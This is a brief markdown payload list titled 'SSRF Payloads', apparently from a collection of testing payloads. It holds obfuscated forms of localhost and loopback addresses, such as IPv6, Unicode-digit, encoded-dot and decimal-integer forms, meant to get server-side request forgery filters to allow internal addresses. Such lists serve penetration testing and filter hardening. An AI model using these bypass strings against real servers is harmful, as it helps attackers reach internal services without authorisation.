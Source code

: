 # SSRF Payloads

>Server side request forgery  

```
127.0.0.1
127.1
localhost
Localhost
LocalHost
lOcAlhOsT
LOcalHOSt
[::]
[0000::1]
[0:0:0:0:0:ffff:127.0.0.1]
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821
2130706433
3232235521
3232235777
```
